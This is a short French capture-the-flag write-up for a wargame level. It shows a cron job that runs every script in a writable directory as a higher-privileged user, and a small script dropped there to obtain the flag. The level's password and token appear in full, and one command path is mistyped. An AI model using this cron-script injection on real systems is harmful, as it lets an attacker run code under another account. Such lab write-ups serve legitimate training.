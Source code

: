 
**LOGIN: level05**

**PASSWORD: ne2searoevaevoem4ov4ar8ap**

 ----

Rien dans le *HOME* mais vu précedemment : 

```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
```
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ok, donc toutes les 2 minutes, les scripts présents dans */opt/openarenaserv/** sont exec. On a les droits d'écriture dans le repertoire. 

```
vim /otp/openarenaserv/exploit.sh

getflag >/tmp/flag.txt
chmod +r /tmp/flag.txt
```

On fait un café, puis on revient 2 minutes plus tard. 

```
cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

**TOKEN: viuaaale9huek52boumoomioc**




